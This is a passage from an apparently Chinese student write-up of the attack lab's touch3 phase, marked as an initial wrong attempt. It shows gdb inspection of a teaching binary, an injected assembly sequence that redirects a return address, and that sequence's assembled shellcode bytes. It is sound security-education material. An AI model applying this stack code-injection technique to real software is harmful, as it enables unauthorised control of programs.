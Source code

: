 #### 一开始的错误解答

这里的差别在于我们输入的`string`是一个`cookie`的字符串表示。我们对`touch3`做反汇编看看`cookie`的字符串表示存在哪里？

```
   0x000000000040190b <+17>:    mov    0x202bd3(%rip),%edi        # 0x6044e4 <cookie>
```

我们输入`x/s 0x6044e4`看看结果：

```
(gdb) x/s 0x6044e4
0x6044e4 <cookie>:      ""
```

这里同样，可以看出来和上一次的`cookie`放在一个位置上。但是上次输入的是数字，这次输入的是字符串。因此，上次是将输入的值`%rdi`设置为`0x6044e4`位置的值。而这次`%rdi`指向输入的字符串，我们需要做的是将`%rdi`设置为`0x6044e4`。

此外，`touch3`的入口地址为`0x4018fa`。因此在最后需要让 return address 等于这个值。

那么总体的注入和上次遵循一样的步骤：

1. 让 return address 等于 buf 的开头(`0x5561dc78`)
2. 在 buf 开头插入赋值语句，让`%edi = 0x6044e4`
3. 让 return address = touch3 的入口地址(`0x4018fa`)
4. 调用`ret`

综上，这次的调用语句是：

```
    movl $0x6044e4,%edi
    subq $0x8,%rsp
    movl $0x4018fa,(%rsp)
    ret
    nop
    nop
    nop
    nop
```

将其保存在`ph3.s`中，输入`gcc -c ph3.s`生成`ph3.o`文件，再`objdump -d ph3.o > ph3.d`，生成`ph3.d`文件。

文件内容如下：

```

ph3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	bf e4 44 60 00       	mov    $0x6044e4,%edi
   5:	48 83 ec 08          	sub    $0x8,%rsp
   9:	c7 04 24 fa 18 40 00 	movl   $0x4018fa,(%rsp)
  10:	c3                   	retq
  11:	90                   	nop
  12:	90                   	nop
  13:	90                   	nop
  14:	90                   	nop

```
